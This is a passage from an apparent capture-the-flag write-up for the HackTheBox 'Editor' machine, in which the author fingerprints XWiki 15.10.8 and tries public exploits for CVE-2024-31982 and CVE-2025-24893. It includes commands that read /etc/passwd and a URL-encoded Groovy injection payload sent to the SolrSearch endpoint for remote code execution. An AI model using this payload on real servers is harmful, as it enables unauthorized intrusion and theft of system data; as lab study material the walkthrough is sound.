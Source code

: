 As expected, if we put `http://editor.htb:8080/xwiki/` in the browser, we will get the same page. <br>
Then perfomance some `ffuf` to enumerate some directories or hidden files but got nothing interesting. <br>
&rarr; Let's check the version of this website.

![editor](/assets/img/editor-htb-season8/editor-htb-season8_xwiki_version.png)

We can see that at the bottom in the page, it shows `XWiki Debian 15.10.8`. <br>
&rarr; Checking for vulnerabilities.

### CVE-2024-31982 & CVE-2025-24893
Found some resources: [XWiki RCE CVE-2024-31982 Exploit](https://www.vicarius.io/vsociety/posts/xwiki-rce-cve-2024-31982-exploit) and [exploit-db](https://www.exploit-db.com/exploits/52136).

So here is the summary of the `CVE-2024-31982`: <br>
> **XWiki vulnerability allows unauthorized remote code execution via database search, threatening data integrity and availability across all installations.**

We gonna try the script from [XWiki RCE CVE-2024-31982 Exploit](https://www.vicarius.io/vsociety/posts/xwiki-rce-cve-2024-31982-exploit) to see if it works.

```bash
└─$ python3 exploit.py -u http://wiki.editor.htb -c 'cat /etc/passwd'
```

Does not get any output. Nothing to worry, let's move on to [exploit-db](https://www.exploit-db.com/exploits/52136).

Checking out this one, it assign to `CVE-2025-24893` and it execute through *SolrSearch* endpoint. We can either download from exploit-db or download script from [CVE-2025-24893](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py).

```bash
└─$ python3 CVE-2025-24893.py 
================================================================================
Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code Execution
Made By Al Baradi Joy
================================================================================
[?] Enter the target URL (without http/https): wiki.editor.htb/xwiki
[!] HTTPS not available, falling back to HTTP.
[✔] Target supports HTTP: http://wiki.editor.htb/xwiki
[+] Sending request to: http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
[✔] Exploit successful! Output received:
```